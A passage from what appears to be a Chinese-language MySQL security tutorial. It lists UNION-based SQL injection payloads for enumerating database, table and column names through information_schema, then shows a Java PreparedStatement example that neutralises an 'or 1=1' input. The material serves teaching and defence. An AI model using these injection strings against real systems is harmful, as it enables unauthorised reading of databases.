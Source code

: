 查询所有库名
```sql
‘union select TABLE_SCHEMA,1 from INFORMATION_SCHEMA.tables --’
Mysql> select first_name,last_name from test.users where user_id=’’ union select table_schema,1 from information_schema.tables -- ‘’
```

查看库中所有表名
```sql
‘union select table_name,1 from information_schema.tables -- ‘
Mysql> select first_name,last_name from test.users where user_id = ‘ ‘ union select table_name, 1 from information_schema.tables -- ‘ ‘
````
同时查询表名及对应库名
```sql
‘union select table_schema,table_name from information_schema.tables --’
Mysql> select first_name,last_name from test.users where user_id= ‘ ‘ union select table_schema, table_name from information_schema.tables -- ‘’
```

查询数据库库名、表名 information_schema.tables
```sql
mysql> select * from information_schema.TABLES \G
mysql> select DISTINCT TABLE_SCHEMA from information_schema.TABLES; //等价于show databases
mysql> select TABLE_SCHEMA,TABLE_NAME from information_schema.TABLES\G
mysql>select TABLE_SCHEMA,GROUP_CONCAT(TABLE_NAME) from information_schema.TABLES GROUP BY TABLE_SCHEMA\G
mysql> select TABLE_NAME from INFORMATION_SCHEMA.tables where TABLE_SCHEMA=’test’; //等价于show tables
```

查询数据库库名、表名、字段名information_schema.columns
```sql
mysql> select * from information_schema.columns\G
mysql> select column_name from information_schema.columns;
mysql> select column_name from information_schema.columns where table_schema = ‘test’ and table_name =’users’;
mysql> select column_name from information_schema.columns where table_name=’USER_PRIVILEGES’;
mysql> select column_name from information_schema.columns where table_name=’SCHEMA_PRIVILEGES’;
```



# 二、应用开发中可以采取的应对措施
## 2.1 PrepartStatement+Bind-Variable
MySQL服务器端并不存在共享池的概念，所以在Mysql上使用绑定变量（Bind Variable）最大的好处主要是为了避免SQL注入，增加安全性，以Java为例，同样是根据username来访问user表：
```sql
Class.forName("com.mysql.jdbc.Driver").nerInstance();
String connectionUrl = "jdbc:mysql://localhost:3306/test";
String connectionUser = "test_user";
String connectionPassword = "test_passwd";
conn = DriverManager.getConnection(connectionUrl,connectionUser,connectionPassword);
String sqlStmt = "select * from user where username = ? and password = ?";
prepStmt = conn.prepareStatement(sqlStmt);
prepStmt.setString(1,"angel' or 1=1'");
prepStmt.setString(2,"test");
rs = prepStmt.executeQuery();
while(rs.next()){
String name = rs.getString("username");
String job = rs.getString("password");
}
```
可以注意到，虽然传入的变量中带了“angel'or 1=1'”的条件，企图蒙混过关，但是由于使用了绑定变量( Java驱动中采用PreparedStatement 语句来实现),输入的参数中的单引号被正常转义，导致后续的"or 1=1"作为username条件的内容出现，而不会作为SQL的一个单独条件被解析，避免了SQL注入的风险。

